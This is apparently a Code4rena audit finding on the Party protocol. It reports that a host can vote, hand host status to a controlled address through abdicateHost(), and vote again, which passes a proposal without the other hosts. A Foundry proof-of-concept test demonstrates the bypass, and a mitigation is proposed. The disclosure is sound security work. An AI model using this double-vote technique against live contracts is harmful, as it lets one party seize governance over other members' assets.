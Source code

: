# Original link
https://github.com/code-423n4/2023-10-party-findings/issues/444
# Lines of code

https://github.com/code-423n4/2023-10-party/blob/b23c65d62a20921c709582b0b76b387f2bb9ebb5/contracts/party/PartyGovernance.sol#L457


# Vulnerability details

## Impact

A `party` can be created using a determined number of hosts. Those hosts can vote individually to a proposal in order to pass the proposal. Additionally the proposal can not be voted multiple times by the same `host`:

```solidity
File: PartyGovernance.sol
595:     function accept(uint256 proposalId, uint256 snapIndex) public returns (uint256 totalVotes) {
...
...
626:         // Cannot vote twice.
627:         if (info.hasVoted[msg.sender]) {
628:             revert AlreadyVotedError(msg.sender);
629:         }
630:         // Mark the caller as having voted.
631:         info.hasVoted[msg.sender] = true;
...
```

The problem is that the `host` can transfer his voting power using [abdicateHost()](https://github.com/code-423n4/2023-10-party/blob/b23c65d62a20921c709582b0b76b387f2bb9ebb5/contracts/party/PartyGovernance.sol#L457) function to a controlled address then vote again to the same proposal. The same `host` can pass a proposal without the approval of other hosts.

## Proof of Concept

I created a test where the same `host` passes the proposal (status ready) without the approval of the other host. Test steps:

1. The host `defaultGovernanceOpts.hosts[0]` accepts the proposal
2. The same host can not vote to the same proposal. Transaction will be reverted.
3. The same host transfers his voting power to `address(1337)` using the `abdicateHost` func. The new controlled `address(1337)` can vote to the same proposal.
4. The proposal now is `ready` and the malicious host does not need the approval of other legitimate hosts.

```solidity
// File: PartyGovernanceUnit.t.sol
// $ forge test --match-test "testHostCanPassAProposalWithoutTheApproveOfTheOtherHosts" -vvv
//
    function testHostCanPassAProposalWithoutTheApproveOfTheOtherHosts() external {
        (
            IERC721[] memory preciousTokens,
            uint256[] memory preciousTokenIds
        ) = _createPreciousTokens(2);
        TestablePartyGovernance gov = _createGovernance(
            false,
            100e18,
            preciousTokens,
            preciousTokenIds
        );
        address undelegatedVoter = _randomAddress();
        gov.rawAdjustVotingPower(undelegatedVoter, 51e18, address(0));
        //
        // Create a one-step proposal.
        PartyGovernance.Proposal memory proposal = _createProposal(1);
        uint256 proposalId = gov.getNextProposalId();
        //
        // Skip because `accept()` will query voting power at `proposedTime - 1`
        skip(1);
        vm.prank(undelegatedVoter);
        assertEq(gov.propose(proposal, 0), proposalId);
        _assertProposalStatusEq(gov, proposalId, PartyGovernance.ProposalStatus.Passed);
        //
        // 1. The host defaultGovernanceOpts.hosts[0] accepts the proposal
        vm.startPrank(defaultGovernanceOpts.hosts[0]);
        gov.accept(proposalId, 0);
        _assertProposalStatusEq(gov, proposalId, PartyGovernance.ProposalStatus.Passed);
        //
        // 2. The same host can not vote to the same proposal. Transaction will be reverted.
        vm.expectRevert();
        gov.accept(proposalId, 0);
        //
        // 3. The same host transfers his voting power to address(1337) using the abdicateHost func
        // The new controlled address can vote to the same proposal, now the proposal is ready
        gov.abdicateHost(address(1337));
        vm.stopPrank();
        vm.prank(address(1337));
        gov.accept(proposalId, 0);
        //
        // 4. The proposal now is `ready` and the host does not need the approval of other legitimate hosts
        _assertProposalStatusEq(gov, proposalId, PartyGovernance.ProposalStatus.Ready);
    }
```

## Tools used

Manual review

## Recommended Mitigation Steps

When transfer the voting power using the [abdicateHost](https://github.com/code-423n4/2023-10-party/blob/b23c65d62a20921c709582b0b76b387f2bb9ebb5/contracts/party/PartyGovernance.sol#L457), the new host should be able to vote only for new proposals.


## Assessed type

Context